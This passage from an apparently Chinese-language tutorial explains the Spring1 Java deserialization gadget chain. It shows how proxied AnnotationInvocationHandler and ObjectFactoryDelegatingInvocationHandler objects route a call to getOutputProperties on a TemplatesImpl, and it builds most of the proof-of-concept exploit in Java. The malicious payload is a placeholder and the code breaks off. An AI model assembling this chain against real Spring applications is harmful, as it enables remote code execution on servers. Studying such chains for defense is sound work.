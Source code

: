 ```java
    InvocationHandler getTypeMappingInvocationHandler = (InvocationHandler)aihCtor.newInstance(Override.class, map);
    Class<?> typeProvider = Class.forName("org.springframework.core.SerializableTypeWrapper$TypeProvider");
    Object typeProviderProxy = Proxy.newProxyInstance(Spring1.class.getClassLoader(), new Class[]{typeProvider}, getTypeMappingInvocationHandler);


    // -----------------下边的这段代码就不用关注了-----------------
    Class<?> methodInvokeTypeProvider = Class.forName("org.springframework.core.SerializableTypeWrapper$MethodInvokeTypeProvider");
    Constructor<?> mitpCtor = methodInvokeTypeProvider.getDeclaredConstructors()[0];
    mitpCtor.setAccessible(true);
    // 把构建好的动态代理传给MethodInvokeTypeProvider内部的provider属性
    final Object mitp = mitpCtor.newInstance(typeProviderProxy, Object.class.getMethod("getClass", new Class[] {}), 0);
    final Field field = mitp.getClass().getDeclaredField("methodName");
    field.setAccessible(true);
    field.set(mitp, "getOutputProperties");
}
```

然后在`org.springframework.beans.factory.support.AutowireUtils$ObjectFactoryDelegatingInvocationHandler`类中的`invoke`方法中，调用`method.invoke(this.objectFactory.getObject(), args);`方法。

现在method参数是可控的、args也是我们想要的空参，所以现在就差一个`objectFactory.getObject()`，如果能返回一个`TemplatesImpl`对象，那就爽了。

如果一个类实现了`ObjectFactory<?>`这个接口，同时这个类的getObject方法能返回一个`TemplatesImpl`对象。

哎，你记不记得我们一开始提到的，`sun.reflect.annotation.AnnotationInvocationHandler`这个动态代理的实现类，如果我调用这个动态代理类中的任意方法(如`test`)，我只需要把对应的`memberValues`这个Map中的内容改成这个样子 `Map["test", new Object()];`。

这样的话在调用`test`方法后，就能调用到`AnnotationInvocationHandler`中的invoke方法，然后在这个方法中，就会把 `new Object()`返回给调用者。

同时要记得我们要代理的是一个`ObjectFactory<?>`接口，有了这些关键点后，我们就能构造一个完整的POC了：

```java
public static void main(String[] args) throws Exception {
    // 因为有两个地方都需要用到sun.reflect.annotation.AnnotationInvocationHandler，所以这里把这个代码提到前边
    // 以便于两个地方都能调用这个类的构造方法
    Class<?> annotationInvocationHandler = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
    Constructor<?> aihCtor = annotationInvocationHandler.getDeclaredConstructors()[0];
    aihCtor.setAccessible(true);

    // 在这里我们创建一个AnnotationInvocationHandler的实例
    // 其中getObject中的xxxxxxxxxx就是我们的TemplatesImpl恶意代码实现类
    Map<String, Object> templatesImpl = new HashMap<>();
    templatesImpl.put("getObject", xxxxxxxxxx);
    InvocationHandler templatesImplInvocationHandler = (InvocationHandler)aihCtor.newInstance(Override.class, templatesImpl);
    // 同时对AnnotationInvocationHandler创建一个动态代理，这个代理用来代理一个ObjectFactory接口
    ObjectFactory objectFactoryProxy = (ObjectFactory) Proxy.newProxyInstance(Spring1.class.getClassLoader(), new Class[]{ObjectFactory.class}, templatesImplInvocationHandler);

    Class<?> objectFactoryDelegatingInvocationHandler = Class.forName("org.springframework.beans.factory.support.AutowireUtils$ObjectFactoryDelegatingInvocationHandler");
    Constructor<?> ofdihCtor = objectFactoryDelegatingInvocationHandler.getDeclaredConstructors()[0];
    ofdihCtor.setAccessible(true);
    InvocationHandler ofpInvocationHandlerInstance = (InvocationHandler)ofdihCtor.newInstance(objectFactoryProxy);
    Type typeTemplatesProxy = (Type) Proxy.newProxyInstance(Spring1.class.getClassLoader(), new Class[]{Type.class, Templates.class}, ofpInvocationHandlerInstance);


```